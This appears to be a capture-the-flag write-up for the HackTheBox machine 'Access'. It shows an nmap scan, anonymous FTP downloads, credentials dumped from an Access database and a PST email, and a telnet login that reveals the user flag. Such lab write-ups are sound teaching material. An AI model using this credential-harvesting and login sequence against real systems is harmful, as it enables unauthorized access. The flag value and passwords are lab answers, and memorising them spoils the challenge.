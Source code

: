 ```yaml
---
title: Access
description: 
categories: [Walkthroughs, HackTheBox]
tags: [windows,ftp,anonymous access]
---
```


|Machine|Release Date |Operating System|Difficulty|
--------|-------------|----------------|----------|
|Access | 29 Sep, 2018|Windows         |Easy      |

## About Access

Access is an **easy** difficulty machine, that highlights how machines associated with the physical security of an environment may not themselves be secure. Also highlighted is how accessible FTP/file shares can often lead to getting a foothold or lateral movement. It teaches techniques for identifying and exploiting saved credentials.

## Reconnaissance

### Port scanning
I'll start by running an Nmap service and version scan with the default scripts. This will help identify any open ports and provide information about the services running on them, giving us valuable targets for further exploration.
> Always save the Nmap output in a text file for future reference. This practice is invaluable, as repeatedly running Nmap can be time-consuming and unnecessary.
{: .prompt-tip }

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ nmap -sC -sV -p- -Pn  --min-rate 10000 -oA nmap_report 10.129.243.223
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 23:11 IST
Nmap scan report for 10.129.243.223
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
| ftp-syst: 
|_  SYST: Windows_NT
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 200.40 seconds
```
Revewing the `Nmap` report, we are able to find 3 interesting ports that we can try to get our foothold-

|Interesting Port | Service | Version |
|-----------------|---------|---------|
|21/tcp           |ftp      |Microsoft ftpd |
|23/tcp             |telnet | NA    |
|80/tcp         | http | Microsoft-IIS/7.5

### FTP Anonymous Access

Anonymous login is allowed on the target.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ ftp ftp://anonymous:''@10.129.243.223:21
Connected to 10.129.243.223.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> 
```
Inside the FTP, there were 2 folders found-
1. Backups
2. Engineer

Inside the Backups folder, we are able to find an access database file called **backup.mdb** and inside the `Engineer` folder, there is a `zip` file called **Access Control.zip**.

We are going to download both of these files locally to our attacker machine foro further analysis.

```shell
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************|  5520 KiB  857.28 KiB/s    00:00 ETA
226 Transfer complete.
5652480 bytes received in 00:06 (857.27 KiB/s)
```

```shell
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
08-24-18  12:16AM                10870 Access Control.zip
226 Transfer complete.
ftp> get "Access Control.zip"
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
125 Data connection already open; Transfer starting.
100% |****************************************| 10870       33.14 KiB/s    00:00 ETA
226 Transfer complete.
10870 bytes received in 00:00 (33.09 KiB/s)
```

The zip file is password protected and we do not know the password yet, so we will start with the `backup.mdb` file, and for that, we need `mdbtools` installed on our attacker machine. 

```shell
sudo apt install mdbtools
```

> A `.mdb` file is a Microsoft Access database file that was the default file format for Access versions up to 2003. MDB stands for Microsoft Database. 
{: .prompt-info}

There are lots of tables inside the databases, and not everything looks interesting, so we are going to narrow down our focus to user tables.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-tables -1  backup.mdb |grep user   
auth_user
auth_user_groups
auth_user_user_permissions
userinfo_attarea
```

Out of all, `auth_user` looks the most interesting. Maybe it stores the user authentication information.

Exporting the data using `mdb-export`, we found the credentials for 4 users.

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ mdb-export backup.mdb auth_user 
id,username,password,Status,last_login,RoleID,Remark
25,"admin","admin",1,"08/23/18 21:11:47",26,
27,"engineer","access4u@security",1,"08/23/18 21:13:36",26,
28,"backup_admin","admin",1,"08/23/18 21:14:02",26,
```

Using the password for `engineer`, which is `access4u@security`, I was able to extract the zip file, and there was only 1 file found inside called `Access Control.pst`.

> A PST file, or Personal Storage Table file, is a proprietary file format used by Microsoft to store items like emails, contacts, and calendar events: 
{: .prompt-info}

To ead the emails inside of the `.pst` file, there are lots of options, but we are goign to go with a lighweight solution. `readpst` seems to be the best one. Let's install it.

```shell
sudo apt install readpst
```
We are able to find 2 email.

```shell
──(frodo㉿kali)-[~/hack-the-box/access]
└─$ readpst Access\ Control.pst   
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```

Let's look at the email 

```shell
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ cat Access\ Control.mbox 
From "john@megacorp.com" Fri Aug 24 05:14:07 2018
Status: RO
From: john@megacorp.com <john@megacorp.com>
Subject: MegaCorp Access Control System "security" account
To: 'security@accesscontrolsystems.com'
Date: Thu, 23 Aug 2018 23:44:07 +0000
MIME-Version: 1.0
Content-Type: multipart/mixed;
	boundary="--boundary-LibPST-iamunique-1651771506_-_-"


----boundary-LibPST-iamunique-1651771506_-_-
Content-Type: multipart/alternative;
	boundary="alt---boundary-LibPST-iamunique-1651771506_-_-"

--alt---boundary-LibPST-iamunique-1651771506_-_-
Content-Type: text/plain; charset="utf-8"

Hi there,

 

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

 

Regards,

John
```

It looks like password for one of the accounts called `security` was changed to `4Cc3ssC0ntr0ller`.


## Telnet

Let's `telnet` to the target machine with the `security` credentials and try to get a shell.

```shell       
┌──(frodo㉿kali)-[~/hack-the-box/access]
└─$ telnet 10.129.243.223
Trying 10.129.243.223...
Connected to 10.129.243.223.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>cd Desktop

C:\Users\security\Desktop>type user.txt
c82f427b80a0f0ad1fb46932d1531b45
```










